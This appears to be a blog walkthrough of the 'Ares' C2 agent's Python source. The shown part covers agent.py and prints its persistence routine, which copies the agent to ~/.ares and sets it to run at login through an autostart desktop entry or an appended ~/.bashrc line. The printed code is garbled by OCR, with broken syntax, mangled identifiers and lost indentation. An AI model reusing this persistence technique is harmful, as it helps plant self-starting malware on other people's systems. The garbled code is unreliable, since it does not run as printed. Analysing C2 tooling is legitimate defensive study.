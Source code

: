 “Ares” Folder structure

Let’s start our journey by analyzing the C2 Agent

## “agent.py”

The agent is located in the file “agent.py”. It consists of one giant class called “Agent” that contains all the functionalities. This class will be called from a function called “main” that in turns will execute the “run” function responsible for running the agent.

![](https://miro.medium.com/v2/resize:fit:798/1*eNZMZHc2Gj1i2fBtPdYkug.png)

Within this function we encounter the first functionality of this agent which persistence.

![](https://miro.medium.com/v2/resize:fit:974/1*QeMrKlaBTeqSek4WhsNuEA.png)

## Persistence

Depending on a boolean read from the configuration file “config.py” we call the persist function.

![](https://miro.medium.com/v2/resize:fit:1400/1*GElJw7H_1w1mQ7HLjK7kcA.png)


```python
def persist (self):

""" Installs the agent """ 
if not getattr(sys, 'frozen', False):
    self.send_output('[!] Persistence only supported on compiled agents.' 
    return
if self.is installed ():
    self. send output ('[!] Agent seems to be already installed.')
    return
if platform.system () == 'Linux'
    persist dir = self .expand path ('~/.ares')
if not os.path.exists (persist_dir):

os.makedirs (persist dir)

agent_path = os.path. join(persist_dir, os.path. basename (sys .executable))

shutil. copyfile (sys.executable, agent_path) os. system(" chmod +x ' + agent_path)

if os.path.exists (self.expand path ("~/ .config/autostart/")):

desktop entry

= "[Desktop Entry]\nVersion=1.0\nType-Application\nName-Ares\nExec=Ss\n'&agent_path

with open (self.expand path ('~/.config/autostart/ares.desktop'), 'w') as f:

f.write (desktop entry)

else:

with open (self .expand path ("~/.bashrc"),

"a") as f:

f.write("\n(if [ $(ps aux|grep

" + os. path. basename (sys .executable) + "¡wc -1) -lt 2 ]; then "

agent _path + "; f1&) \n")

```
